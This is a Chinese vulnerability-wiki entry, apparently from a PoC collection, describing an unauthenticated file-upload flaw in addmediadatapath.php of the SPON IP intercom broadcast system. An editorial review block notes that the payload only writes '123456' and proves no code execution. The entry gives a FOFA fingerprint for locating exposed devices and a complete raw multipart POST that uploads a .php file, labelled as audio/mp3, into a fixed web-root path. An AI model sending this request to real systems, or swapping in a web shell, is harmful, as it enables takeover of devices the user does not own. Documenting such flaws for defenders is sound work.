


# 世邦通信IP网络对讲广播系统addmediadatapath.php文件上传

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：世邦SPON IP网络对讲广播系统
- 本文讨论：addmediadatapath.php文件上传
- 版本、权限与配置前提：Windows ICPAS/Wnmp目录布局；未给版本与认证条件
- 资料类型：上传请求复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 上传test.php内容只是123456，不能证明代码执行或完整RCE
- 固定绝对路径未说明部署差异；元数据icon_hash字段残缺
- 无在野利用和影响范围来源，身份认证字样有错别字
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留

### 待核与来源

- 匿名上传、写入位置、脚本解析和修复版本待验证
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

# 漏洞描述

世邦通信IP网络对讲广播系统addmediadatapath.php处存在文件上传漏洞，未经身份认真可上传恶意代码导致，系统被控制，危害极大。

# 影响版本

IP网络对讲广播系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash="-1830859634"

POC/EXP：

POST /php/addmediadatapath.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYrqVrkjRl2AHEKXG 
Content-Length: 395
Connection: keep-alive

------WebKitFormBoundaryYrqVrkjRl2AHEKXG
Content-Disposition: form-data; name="subpath"

------WebKitFormBoundaryYrqVrkjRl2AHEKXG
Content-Disposition: form-data; name="fullpath"

C:\ICPAS\Wnmp\WWW\php
------WebKitFormBoundaryYrqVrkjRl2AHEKXG
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: audio/mp3

123456
------WebKitFormBoundaryYrqVrkjRl2AHEKXG--

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
